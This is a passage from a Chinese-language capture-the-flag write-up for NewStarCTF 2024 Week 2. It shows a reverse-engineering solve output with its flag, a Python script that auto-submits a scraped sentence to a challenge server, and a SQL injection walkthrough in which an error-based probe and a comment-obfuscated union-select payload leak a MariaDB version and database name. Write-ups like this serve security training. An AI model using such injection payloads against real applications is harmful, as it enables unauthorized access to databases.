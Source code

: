 ``` cpp
(base) [uniya@uniyawork Downloads]$ ./solve
flag{Do_you_know_UPX?}

*/
```

# Web

## one_second_type_8_english_sentence

![屏幕截图 2024-09-30 010225](NewStarCTF 2024 Week2 WriteUp/屏幕截图 2024-09-30 010225.png)

手速慢的人会选择写脚本！代码如下：

``` python
#!/usr/bin/python3

#encoding:utf-8

import requests

s=requests.Session()

url="http://eci-2ze8z01szogk0yudg063.cloudeci1.ichunqiu.com/start"

r=s.get(url)

res=r.content

a=res.find(b'<p id=\"text\">')

b=res.find(b'</p>',a)

answer = res[a+13:b]

url2="http://eci-2ze8z01szogk0yudg063.cloudeci1.ichunqiu.com/submit"


r=s.post(url2,data={'user_input': answer})

print(r.content)
```

## thanks_pidan_plus

![屏幕截图 2024-10-04 225404](NewStarCTF 2024 Week2 WriteUp/屏幕截图 2024-10-04 225404.png)

SQL注入。注入过程如下：

``` log
"

You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '""" LIMIT 0,1' at line 1


-1"/**/union/**/select/**/version(),database()"1

Name: "10.4.13-MariaDB"
Position: "ctf"


```
